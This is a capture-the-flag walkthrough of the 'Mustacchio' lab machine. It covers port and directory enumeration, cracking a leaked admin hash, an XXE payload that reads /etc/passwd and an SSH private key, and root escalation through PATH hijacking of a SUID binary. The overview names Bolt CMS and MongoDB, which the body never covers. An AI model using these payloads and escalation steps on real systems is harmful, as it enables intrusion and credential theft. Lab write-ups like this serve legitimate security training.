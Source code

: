 Room: [Mustacchio]() ONGOING TUTORIAL

Difficulty: Hard

Overview: In this room enumeration is very important, searching for subdomains, modify an exploit to take advantage of a chat program has well a MongoDb web interface. Find and crack hashes to compromise a Bolt CMS server till we privesc to root through cap_setuid+ep capabilities.

xxe enumeration privesc web

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We can start our enumeration fase by running "nmap". It will scan for all open ports on the target system:

```
nmap -sV -sC -p- mustacchio.thm -oN nmap.txt

mustacchio.thm → you can add the ip of the room to /etc/hosts

-Pn → To bypass the blocking of ping probes   

-sV → To determine service/version info

-p-  →  Scan all ports

-oN → Save scan to a file
```

![nmap](https://user-images.githubusercontent.com/76821053/186257404-a5196013-3e31-4a6b-9c30-10db5ce6c027.png)

There are three open ports:

22     →  ssh OpenSSH 7.2p2

80     →  http Apache httpd 2.4.18

8765   →  http nginx 1.10.3

Port 80 hosts a http web server:

![website80](https://user-images.githubusercontent.com/76821053/186258496-eed09ad7-fb11-4263-af26-369b744af45f.png)

To search for any hidden directories or files we can use “Gobuster”:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://mustacchio.thm/ -x .txt,.cgi,.php,.log,.bak,.xxx,.old

dir             → for directory brute-force

--wordlist   → Path of the wordlist

--url           →  Specify the url path

-x              → File extensions to search for
```

![gobuster](https://user-images.githubusercontent.com/76821053/186258583-84e51d26-ff8c-446b-86bd-00246df49f6b.png)

We can start browsing the directories found by “gobuster” to see what we can find.

There is a robots.txt file but it is empty:

![robotstxt](https://user-images.githubusercontent.com/76821053/186258725-8fc63b98-3754-43af-a627-7d30f4f90a5e.png)

At /custom/js path there is an interesting file called users.bak:

![usersbak](https://user-images.githubusercontent.com/76821053/186259309-68a79b6f-4a2f-449b-9468-a1d746807f71.png)

After downloading the file we can see that it holds some credentials but we need to use strings to be able to read it:

![strings](https://user-images.githubusercontent.com/76821053/186259376-a34e8467-5b75-46e9-898d-098dbda16fe4.png)

This credentials are from a sql database, they are encrypted. Braking down the credentials we can try to assume that “admin” is the username and the rest of the hash is the encrypted password.

like so:

admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

So using “hash-identifier” we can identify the encryption type:

![hashidentifier](https://user-images.githubusercontent.com/76821053/186259480-5f22283a-efc4-4950-b07a-11f5c8dbf023.png)

Knowing the encryption type we can use “John the ripper” to crack this password:

First we put the hash inside a file and pass it to john.

![echo](https://user-images.githubusercontent.com/76821053/187069045-30488c9f-cccf-4a24-b7fb-dcc5d715b658.png)

```
john user_hash --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt 
```

![john](https://user-images.githubusercontent.com/76821053/187069091-a4f85304-5a34-46b7-bf1d-8ab23bcae78f.png)

Credentials:

admin:bulldog19

If we take a look at the nginx http server we will find a login page that will accept our credentials:

![adminpanel](https://user-images.githubusercontent.com/76821053/187069121-cae89068-678b-43f6-9963-90c579f76cd8.png)

We have arrived at the admin panel and there is only a field where we are suppose to add comments on the website:

![adminpanelcoment](https://user-images.githubusercontent.com/76821053/187069152-43ff03fb-c541-4fd5-b923-bb5ac3f67c44.png)

Taking a closer look at the source code of the page we find how the javacript for the input field works:

![sourcecode](https://user-images.githubusercontent.com/76821053/187069180-406872f2-217e-4f81-9f65-e64c0dd8c7c5.png)

This submition input field accepts XML code, knowing this we can check for XXE vulnerabilities in this page.

XXE or XML External Entity attack is a type of attack against an application that parses XML input, for more information take a look at [owasp.org](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).

We can use this payloads from githubs [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) 

![classicXXE](https://user-images.githubusercontent.com/76821053/187069231-64891bfc-f25b-4906-ad52-0c1fa71d641a.png)

But for it to work i adapted the XML code a bit for this webpage. What called my attention for this was a funny XML code found inside the source code, at “Example=/auth/dontforget.bak":

If we download the file we can see the structure of the XML.

![catdontforget](https://user-images.githubusercontent.com/76821053/187069432-a4fe7e02-5fbd-43f1-bcf0-67ca5ee7f253.png)

Knowing this our XML code would look like this:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author></author>
  <com>&file;</com>
</comment>
```

Has we can see below this XML format worked, we recieved the content of /etc/passwd.

![XMLformat](https://user-images.githubusercontent.com/76821053/187069519-f5f207e4-2937-44e2-9bfe-d7cf4daea789.png)

The source code of the page had a message for “Barry”, saying that we could connect through ssh with his key. If we try connecting to ssh with “Barry” we will revice a message saying “Permission denied (publickey).”

![sshbarry](https://user-images.githubusercontent.com/76821053/187069545-cc7e4d6c-68ea-4e5e-a5d4-55d57539a363.png)

This means that we can only connect to ssh with a ssh key. 

The ssh keys are normally stored at "/home/user/.ssh". We can use the same XML code to extract the keys from "barry" home directory just by change the path of file.

![rsaprivatekey](https://user-images.githubusercontent.com/76821053/187069625-728ce5da-e996-4d63-be31-6b21db0fa18d.png)

After arranging the ssh key like so:

![catidrsa](https://user-images.githubusercontent.com/76821053/187069652-1dac5b09-d086-4338-a40a-6ade9a99e68c.png)

We need to crack it with “John the ripper”. And to do so we first need to use "ssh2john":

![crackwithjohn](https://user-images.githubusercontent.com/76821053/187069700-e7ce8f9d-0e8b-496d-ac5e-f52d6614d1a8.png)

With the id_rsa key and the passprase that we crack we can now ssh to the target machine.

But first we need to change the permissions of the id_rsa file:

![chmod600](https://user-images.githubusercontent.com/76821053/187069748-967824c3-84e7-4d54-86d7-d90516989a13.png)

We are in!

![sshidrsa](https://user-images.githubusercontent.com/76821053/187069757-94342d39-8af8-430b-b4e0-94c37eff5128.png)

We can find the first flag at “Barry's” home directory:

![firstflag](https://user-images.githubusercontent.com/76821053/187069874-73e62b4d-0fc3-472f-a2f0-755574b38ca0.png)

barry: urieljames

Knowing the path to the user.txt file we could also get it through the website:

![firstflagwebsite](https://user-images.githubusercontent.com/76821053/187069983-035c1bb0-85a6-4d30-ab66-91e81e90887c.png)

When starting enumerating the machine, one of the first things we can do is search for SUID binaries:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![findperm](https://user-images.githubusercontent.com/76821053/187070125-6a6d521e-a92a-458c-9d95-d60a98732042.png)

Running the binary we will get a live feed of the nginx access.log file:

![accesslog](https://user-images.githubusercontent.com/76821053/187070148-1e98d600-9f1f-4db4-a376-8eb6542cd680.png)

If we look at the binary permissions we can read it, and to so we can use “strings”:

![strings2](https://user-images.githubusercontent.com/76821053/187070186-980a037e-2ff3-4a79-a295-faca0be13161.png)

“live_log” file is using “tail” to read the “access.log”, but it is not using the full PATH.

PATH is an environmental variable in Linux which contains all bin and sbin directories that hold all executable programs.

So we'll create a new “tail” binary that runs “/bin/bash”, this way we can try to hijack the PATH of “tail” to a specific directory and when the SUID binary with root privileges run it will trigger our new “tail” binary.

We can use these steps:

```bash
cd /tmp
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
```

The PATH for tails was:

![wich](https://user-images.githubusercontent.com/76821053/187070408-05257237-a503-4b7a-9be2-6fdfd943c453.png)

The new PATH is now /tmp/tail, and we just have to run the SUID binary “live_log” owned by root.

![runsuidbinary](https://user-images.githubusercontent.com/76821053/187070505-06172146-60d6-42b9-80dd-c4bf4a3899df.png)

Success! Root privileges!!

You can find the last flag at /root.

![rootflag](https://user-images.githubusercontent.com/76821053/187070539-e9035ee4-85a2-46bc-bed7-30d89f8b2a45.png)






























































